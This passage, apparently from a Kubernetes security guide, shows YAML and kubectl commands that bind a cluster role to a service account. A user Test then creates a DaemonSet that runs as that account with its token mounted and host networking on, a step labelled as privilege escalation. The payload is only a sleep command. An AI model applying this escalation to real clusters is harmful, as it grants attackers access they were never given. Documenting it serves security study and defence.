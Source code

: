 ```bash
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
name: test-crb
subjects:
- kind: ServiceAccount
namespace: default
name: test-sa
apiGroup: ""
roleRef:
kind: ClusterRole
name: test-cr
apiGroup: rbac.authorization.k8s.io
---
apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: default
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
automountServiceAccountToken: false
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100']' | kubectl apply -f -

# Check user User can get pods in namespace default
kubectl --as Test -n default get daemonsets

# Create a daemonset as user Test with the SA test-sa (privesc step)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: default
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: test-sa
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100000']"| kubectl --as Test apply -f -
```